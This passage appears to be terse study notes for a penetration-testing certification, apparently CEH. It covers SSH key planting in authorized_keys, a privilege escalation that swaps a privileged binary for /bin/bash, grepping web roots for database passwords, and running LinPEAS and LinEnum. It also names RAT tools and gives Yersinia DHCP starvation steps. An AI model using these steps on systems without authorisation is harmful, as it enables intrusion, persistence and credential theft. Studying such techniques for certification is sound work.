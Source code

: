 nano id_rsa<br>
paste the key<br>
ctrlS ctrlX<br>
chmod 600 id_rsa<br>

ssh root@<IP> -p [port] -i id_rsa<br>
*******************************<br>
ssh-keygen -t rsa<br>
cat ~/.ssh/id_rsa.pub | ssh USER@HOST "mkdir -p ~/.ssh && cat >> ~/.ssh/authorized_keys"<br>

ssh <user_name>@<IP> -p [port] -i id_rsa<br>
*******************************<br>
- 1st_file we have permission<br>
- 2nd file we do not have permission<br>

stat -c “%a %A %U %G %F” <file><br>

strings <file><br>
if the second file is there:<br>
rm <2nd_file><br>
cp /bin/bash <2nd_file><br>
/<1sr_file><br>
*******************************<br>
cd /var/www/html<br>
grep -nr “db_user”<br>
cat <link><br>

su or sudo su if we find the pass<br>
*******************************<br>
LinEnum<br>

copy url<br>
git clone <url><br>
cd LinEnum<br>

LinPEAS<br>
copy latest version<br>
wget <paste><br>
chmod +x linpeas.sh<br>

./LinEnum.sh<br>
./linepeas.sh<br>


## 11. Malware Threats (RAT)
5 RAT tools<br>

njRAT | MoSucker | ProRat | Theef | HTTP RAT<br>

**To examine malware**<br>
Use DIE<br>
For Strings for file pos<br>
Sample-ELF->Info for Info<br>

**To examine event logs**<br>
Use jv16PowerTools<br>

**To examine windows services**<br>
Use ServiceManager from CEH tools<br>

**Starvation attacks**<br>
Use Yersinia:<br>
sudo yersinia -G<br>
open Wireshark<br>
Start DHCP Discover packets attack<br>
filter bootp.type==1 in Wireshark<br>
